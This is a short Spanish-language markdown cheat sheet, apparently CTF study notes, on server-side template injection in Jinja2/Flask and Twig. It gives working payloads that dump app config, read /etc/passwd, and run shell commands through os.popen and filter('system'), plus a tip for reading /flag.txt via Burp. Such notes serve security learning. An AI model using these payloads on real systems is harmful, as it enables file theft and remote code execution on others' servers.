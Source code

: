 
Server-Side template injection -> Cuando un template engine como jinja acepta input antes de que la función de renderizado se active, permitiendo que el atacante inyecte código y que este sea renderizado
## Identifying SSTI

1. Meterle carácteres usados comunmente en los template para ver si salta error : ```${{<%[%'"}}%\.``` -> carácteres más comunes

2. Identificar el Template Engine

 <img width="1065" height="690" alt="image" src="https://github.com/user-attachments/assets/6f7c0f12-afb2-4abe-b7b8-e7f7301866a3" />


3. Salir de casa

## Explotation - Jinja2

Usado en python web frameworks como `Flask` o `Django` - nos centraremos en Flask

1. Payload para ver la configuración de la aplicación web
```jinja2
{{ config.items() }}
```
2. Payload que dumpea todas las funciones built-in 
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
3. Si la funciones open está activa podemos hacer LFI de la siguiente forma
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
4. RCE,  necesitamos la librería 'os' , si no está instalada tendremos que hacerle import desde el payload 
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

## Explotation - Twig

Basado en PHP

1. Payload para que nos de info sobre el template
```twig
{{ _self }}
```
2. LFI (si usa Symfony)
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
3. RCE
```twig
{{['id']|filter('system')}}
```

si quieres hacer cat /flag.txt con burp el espacio ponlo como `\x20`
